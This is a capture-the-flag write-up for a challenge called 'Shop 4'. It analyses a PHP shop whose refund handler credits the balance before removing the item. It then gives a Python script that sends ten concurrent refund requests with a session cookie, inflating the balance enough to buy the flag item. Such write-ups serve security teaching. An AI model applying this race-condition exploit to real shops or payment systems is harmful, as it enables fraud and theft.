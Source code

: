 # Shop 4

After creating an account and logging in, we are greeted with a product page.
Our balance is $100.00, and the only two products in stock are "Race car" and "EPT Fan", which cost $99.99 and $2,499.99, respectively.
![Shop page](shop_page.png)

We can't afford the fan, but we can buy a Race Car; This sets our balance to $0.01, and sets "Race Car owned" to 1.

![Shop page 2](shop_page_2.png)

Once we have one race car owned, we are able to refund it to get our balance back to 100 and Race Car owned to 0.


## Vulnerability
In order to purchase the more expensive item, we need to somehow update our user balance to be higher than it should be.

The only place balance user balance is changed is `updateUserbalance`
```php
function updateUserbalance($userId, $balance) {
    $db = getDBConnection();
    $stmt = $db->prepare('UPDATE users SET balance = balance + ? WHERE id = ?');
    $stmt->bind_param('di', $balance, $userId);
    return $stmt->execute();
}
```
Which is only called in two different places, when buying and when refunding.
Let's look at these operations:
```php
if ($action === 'buy') {
    // ...
    if (updateUserbalance($user['id'], -$item['price'])) {
        if (addUserItem($user['id'], $item_id)) {
            $messages[] = [
                "category" => "success",
                "message" => "Item purchased successfully!"
            ];
            $user = getCurrentUser();
            $user_items = getItemsByUserId($user['id']);
        } else {
            $messages[] = [
                "category" => "danger",
                "message" => "Error adding item to user inventory."
            ];
            updateUserbalance($user['id'], $item['price']);
        }
    }
```
```php
} elseif ($action === 'refund') {
// ...
    if (updateUserbalance($user['id'], $item['price'])) {
        if (removeUserItem($user['id'], $item_id)) {
            $messages[] = [
                "category" => "success",
                "message" => "Item refunded successfully!"
            ];
            $user = getCurrentUser();
            $user_items = getItemsByUserId($user['id']);
        } else {
            $messages[] = [
                "category" => "danger",
                "message" => "Error removing item from user inventory."
            ];
            updateUserbalance($user['id'], -$item['price']);
        }
    }
```

The case of refunds looks especially interesting, as here we can see that the item is only removed from the user's inventory *after* the user balance has been increased. The code attemps to compensate for this by re-removing the product's price from the user balance in case the user did not really have it in their inventory, but if removeUserItem or the second updateUserBalance fails somehow, then the balance would not be corrected.

## Scripting
We can attempt to exploit this by making a lot of refunds in short succession.

By using our browser's devtools, we can navigate to the network tab, then click the product's refund button, then inspect that request to see what arguments the page uses for its api call.

![Refund request data](refund_request.png)

We can also view the session cookie of our logged in user, which we can use to authenticate our requests.

![Browser session cookie](session_cookie.png)

We can then use python to create a script that makes multiple post requests in rapid succession. In order to avoid waiting for one request to finish before sending the next one, we can use multiprocessing:
```py
from multiprocessing.dummy import Pool
import time
import requests

url = "https://53kilomeddata-0f97-shop-4.ept.gg/"

# from chrome/ff/... devtools > network tab > Headers > Cookie
cookie = {
    "session_token": "5c61b45900997bd3bc0fd20d8aeef968d9e631238d81869b0f1fb30349259f5a"
}

# from chrome/ff/... devtools > network tab > / POST request > request form data
data = {
    "item_id": 1,
    "action": "refund"
}

def post_request():
    print("Sending request...")
    response = requests.post(url, cookies=cookie, data=data)
    # print(response.text)

pool = Pool(10)

for i in range(10):
    pool.apply_async(post_request)

# ensure that all the requests are made before the script exits:
time.sleep(5)
```
## Execution

If we now buy one Race Car, then execute the above script, we should see that the race car's price has been refunded multiple times. Repeating these two steps 2-3 times then earns us enough money to buy the I <3 EPT Fan.
![Shop page with sufficient funds](shop_page_3.png)

Purchasing the fan, then navigating to "My Orders" via the navbar gives us the flag:

![Flag](flag.png)
